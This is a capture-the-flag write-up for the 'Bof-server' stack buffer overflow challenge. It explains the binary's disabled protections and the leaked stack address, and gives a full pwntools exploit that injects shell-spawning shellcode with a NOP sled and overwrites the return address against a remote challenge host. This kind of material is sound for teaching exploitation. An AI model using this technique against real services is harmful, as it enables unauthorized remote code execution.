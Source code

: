 # Bof-server [100]
**Category:** Binary Exploitation 

> Today kids we learn how to write exploits for super-secure software: bof-server!  
nc 89.38.208.144 11112  
(non-standard flag format)

## Write-up
This is a standard buffer overflow shellcoding challenge. 

As usual, running `checksec` on the binary gives:
```   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX disabled  
   PIE:      No PIE (0x400000)    
   RWX:      Has RWX segments
```

`checksec` shows the `NX Bit` as disabled, which means shellcode can be executed. After running the binary, we see the following output:  

`Hello! Here is the stack address: 7fffffffdc60, enter your name please:`  

The binary prints out the starting address of the stack, and asks for input. We can use `pwntools` to generate the shellcode to execute shell. The payload contains the following:

1. Shellcode
2. Padding (Overflow the stack until RIP)    
3. Stack address (To jump to our shellcode and execute shell)

Here's the final exploit:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./bof-server",
    #"libc" : "./",
    #"ld" : "./",
    "HOST" : "89.38.208.144",
    "PORT" : 11112,
}

def exploit(p):
    padding = "\x90"*264
    shellcode = asm(shellcraft.sh())

    ru("stack address: " )
    address = int("0x" + r(12), 16)

    payload = "\x90"*50 
    payload += shellcode
    payload += "\x90"*(264-50-len(shellcode))
    payload += p64(address)
    sla("please: ", payload)
    p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])

    if "libc" in config.keys() and config["libc"]:
        libc = ELF(config["libc"])

    if sys.argv[-1] == "remote":
        p = remote(config["HOST"], config["PORT"])
    else:
        if "libc" in dir(): 
            p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
        else: 
            p = process(config["elf"])

        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    r = lambda a: p.recv(a)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```

**Flag:** TIMCTF{oooverfl0w}wwwWWW

